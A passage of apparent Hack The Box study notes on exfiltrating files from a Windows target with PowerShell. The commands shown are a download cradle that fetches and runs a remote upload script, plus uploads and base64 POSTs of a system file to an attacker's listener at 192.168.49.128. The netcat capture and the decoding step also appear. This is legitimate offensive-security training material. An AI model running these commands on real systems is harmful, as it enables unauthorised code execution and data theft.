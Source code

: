 We can user **PSUpload.ps1**, which uses **Invoke-RestMethod** to upload files to the server. 

First download PSUpload.ps1 to the host machine:

```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

Upload the target file to upload server:

```powershell-session
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```


#### PowerShell Base64 Upload

Run netcat listener on attacking machine and send the base64 encode string towards it. 

On target machine, base64 encode the target file and send it to attacker's netcat listener:

```powershell-session
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

Netcat listening on attacker machine receives base64 string:

```shell-session
jadu101@htb[/htb]$ nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.129] 50923
POST / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1682
Content-Type: application/x-www-form-urlencoded
Host: 192.168.49.128:8000
Content-Length: 1820
Connection: Keep-Alive

IyBDb3B5cmlnaHQgKGMpIDE5OTMtMjAwOSBNaWNyb3NvZnQgQ29ycC4NCiMNCiMgVGhpcyBpcyBhIHNhbIGFuZCB0aGUgaG9zdCBuYW1lIHNob3VsZCBiZSBzZXBhcmF0ZWQgYnkgYXQgbGVhc3Qgb25lDQo
...SNIP...
```

Decode the transferred string:

```shell-session
jadu101@htb[/htb]$ echo <base64> | base64 -d -w 0 > hosts
```

#### PowerShell Variables

